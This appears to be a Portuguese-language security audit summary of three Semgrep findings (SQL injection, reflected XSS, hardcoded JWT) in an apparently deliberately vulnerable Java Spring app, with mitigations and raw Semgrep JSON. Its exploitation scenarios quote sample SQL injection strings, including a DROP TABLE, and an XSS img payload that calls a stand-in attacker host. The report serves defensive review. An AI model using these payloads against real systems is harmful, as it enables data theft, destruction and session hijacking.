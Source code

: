  **Overview**

Remova imediatamente segredos/JWT do repositório e reescreva o histórico se preciso, rotacione tokens/chaves e/ou passe a gerir segredos em Vaults; endureça as respostas HTTP com X-Content-Type-Options: nosniff, Content-Type correto e cookies Secure/HttpOnly, e implemente CSP com nonce/hash para controlar a execução de scripts; por fim, elimine SQL Injection adotando consultas parametrizadas (PreparedStatement/parâmetros nomeados)

1) **SQL Injection por string SQL manual**
**Regra/ID:** java.spring.security.injection.tainted-sql-string.tainted-sql-string
**Local:** app/src/main/java/org/sasanlabs/service/vulnerability/sqlInjection/BlindSQLInjectionVulnerability.java:56
**Descrição:** Construção manual de query SQL diretamente com dados do usuário. Isso abre espaço para injeção e manipulação de dados. (CWE-89; OWASP A01:2017 / A03:2021 – Injection)
**Severidade**: Critical (Semgrep severity=ERROR)
**Cenário de exploração**: Um atacante injeta payloads no parâmetro consumido pela query.
Exemplo: ' OR 1=1 --, '; DROP TABLE users; -- ou time-based/blind (' OR SLEEP(5)--), obtendo leitura/escrita indevida ou exfiltration de dados.
**Mitigações recomendadas**: Parametrizar as consultas é uma excelente opção, normalmente os frameworks de desenvolvimento já trabalham com os "placeholders", PreparedStatement, métodos nomeados entre outras interfaces que mitigam a injeção direta de SQL. 

2) **XSS por HTML concatenado com input do usuário**
**Regra/ID**: java.spring.security.injection.tainted-html-string.tainted-html-string
**Local**: app/src/main/java/org/sasanlabs/service/vulnerability/xss/reflected/XSSInImgTagAttribute.java:70
**Descrição**: Montagem manual de HTML com entrada do usuário sem escaping/encoding; o dado flui para o DOM como código (e não apenas texto), caracterizando XSS refletido (CWE-79; OWASP A07:2017 / A03:2021 – Injection).
**Severidade**: Critical (Semgrep severity=ERROR)
**Cenário de exploração**: Um atacante injeta algo como <img src=x onerror=fetch('https://nu.attacker')> Ao ser refletido sem sanitização, o navegador executa o payload, permitindo roubo de sessão, account takeover, defacement e pivô para CSRF.
**Mitigações recomendadas**: O caminho mais efetivo é endurecer o canal HTTP e a superfície de execução do browser: ative X-Content-Type-Options: nosniff em todas as respostas e garanta o Content-Type correto; marque cookies sensíveis com Secure (HTTPS obrigatório) e HttpOnly (inacessíveis via JS). Implemente CSP para controlar de onde scripts/estilos podem carregar e como executam: use nonce por resposta ou hashes em script-src

3) **Token JWT exposto em recurso da aplicação**
**Regra/ID**: generic.secrets.security.detected-jwt-token.detected-jwt-token
**Local**: app/src/main/resources/attackvectors/JWTVulnerabilityPayload.properties:1
**Descrição**: Token JWT hardcoded em recurso do projeto. Mesmo que usado para teste, a exposição de tokens/chaves é um vetor de abuso e deve ser tratada como secreto. (CWE-321; OWASP A02:2021 – Cryptographic Failures)
**Severidade**: Critical (tratar como crítica até prova de invalidez do token; Semgrep marca severity=ERROR, mas confidence=LOW)
**Cenário de exploração**: Reuso do token para bypass de autenticação/autorização, escalando privilégios se o token for válido ou se a chave/segredo correspondente também vazar. Ataques de replay se o TTL for alto.
**Mitigações recomendadas**: retirar o token do repositório, reescrever histórico se necessário (BFG/Git filter-repo). 
Rotação: invalidar o token e rotacionar chaves/segredos associados. Usar boas práticas JWT: expiração curta, verificação de iss/aud, uso de JWKS para chaves públicas, revocation list quando aplicável.



Abaixo trecho removido do semgrep:

```
    {
      "check_id": "java.spring.security.injection.tainted-sql-string.tainted-sql-string",
      "path": "app/src/main/java/org/sasanlabs/service/vulnerability/sqlInjection/BlindSQLInjectionVulnerability.java",
      "start": {
        "line": 56,
        "col": 17,
        "offset": 2688
      },
      "end": {
        "line": 56,
        "col": 52,
        "offset": 2723
      },
      "extra": {
        "message": "User data flows into this manually-constructed SQL string. User data can be safely inserted into SQL strings using prepared statements or an object-relational mapper (ORM). Manually-constructed SQL strings is a possible indicator of SQL injection, which could let an attacker steal or manipulate data from the database. Instead, use prepared statements (`connection.PreparedStatement`) or a safe library.",
        "metadata": {
          "cwe": [
            "CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')"
          ],
          "owasp": [
            "A01:2017 - Injection",
            "A03:2021 - Injection"
          ],
          "references": [
            "https://docs.oracle.com/javase/7/docs/api/java/sql/PreparedStatement.html"
          ],
          "category": "security",
          "technology": [
            "spring"
          ],
          "cwe2022-top25": true,
          "cwe2021-top25": true,
          "subcategory": [
            "vuln"
          ],
          "likelihood": "HIGH",
          "impact": "MEDIUM",
          "confidence": "MEDIUM",
          "interfile": true,
          "license": "Semgrep Rules License v1.0. For more details, visit semgrep.dev/legal/rules-license",
          "vulnerability_class": [
            "SQL Injection"
          ],
          "source": "https://semgrep.dev/r/java.spring.security.injection.tainted-sql-string.tainted-sql-string",
          "shortlink": "https://sg.run/9rzz"
        },
        "severity": "ERROR",
        "fingerprint": "requires login",
        "lines": "requires login",
        "validation_state": "NO_VALIDATOR",
        "engine_kind": "OSS"
      }
    },
    {
      "check_id": "java.spring.security.injection.tainted-html-string.tainted-html-string",
      "path": "app/src/main/java/org/sasanlabs/service/vulnerability/xss/reflected/XSSInImgTagAttribute.java",
      "start": {
        "line": 70,
        "col": 37,
        "offset": 3189
      },
      "end": {
        "line": 70,
        "col": 44,
        "offset": 3196
      },
      "extra": {
        "message": "Detected user input flowing into a manually constructed HTML string. You may be accidentally bypassing secure methods of rendering HTML by manually constructing HTML and this could create a cross-site scripting vulnerability, which could let attackers steal sensitive user data. To be sure this is safe, check that the HTML is rendered safely. You can use the OWASP ESAPI encoder if you must render user data.",
        "metadata": {
          "cwe": [
            "CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')"
          ],
          "owasp": [
            "A07:2017 - Cross-Site Scripting (XSS)",
            "A03:2021 - Injection"
          ],
          "references": [
            "https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html"
          ],
          "category": "security",
          "technology": [
            "java",
            "spring"
          ],
          "cwe2022-top25": true,
          "cwe2021-top25": true,
          "subcategory": [
            "vuln"
          ],
          "likelihood": "HIGH",
          "impact": "MEDIUM",
          "confidence": "MEDIUM",
          "license": "Semgrep Rules License v1.0. For more details, visit semgrep.dev/legal/rules-license",
          "vulnerability_class": [
            "Cross-Site-Scripting (XSS)"
          ],
          "source": "https://semgrep.dev/r/java.spring.security.injection.tainted-html-string.tainted-html-string",
          "shortlink": "https://sg.run/ObdR"
        },
        "severity": "ERROR",
        "fingerprint": "requires login",
        "lines": "requires login",
        "validation_state": "NO_VALIDATOR",
        "engine_kind": "OSS"
      }
    },{
      "check_id": "generic.secrets.security.detected-jwt-token.detected-jwt-token",
      "path": "app/src/main/resources/attackvectors/JWTVulnerabilityPayload.properties",
      "start": {
        "line": 1,
        "col": 122,
        "offset": 121
      },
      "end": {
        "line": 1,
        "col": 233,
        "offset": 232
      },
      "extra": {
        "message": "JWT token detected",
        "metadata": {
          "source-rule-url": "https://github.com/Yelp/detect-secrets/blob/master/detect_secrets/plugins/jwt.py",
          "category": "security",
          "technology": [
            "secrets",
            "jwt"
          ],
          "confidence": "LOW",
          "references": [
            "https://semgrep.dev/blog/2020/hardcoded-secrets-unverified-tokens-and-other-common-jwt-mistakes/"
          ],
          "cwe": [
            "CWE-321: Use of Hard-coded Cryptographic Key"
          ],
          "owasp": [
            "A02:2021 - Cryptographic Failures"
          ],
          "subcategory": [
            "audit"
          ],
          "likelihood": "LOW",
          "impact": "MEDIUM",
          "license": "Semgrep Rules License v1.0. For more details, visit semgrep.dev/legal/rules-license",
          "vulnerability_class": [
            "Cryptographic Issues"
          ],
          "source": "https://semgrep.dev/r/generic.secrets.security.detected-jwt-token.detected-jwt-token",
          "shortlink": "https://sg.run/05N5"
        },
        "severity": "ERROR",
        "fingerprint": "requires login",
        "lines": "requires login",
        "validation_state": "NO_VALIDATOR",
        "engine_kind": "OSS"
      }
    },
    ```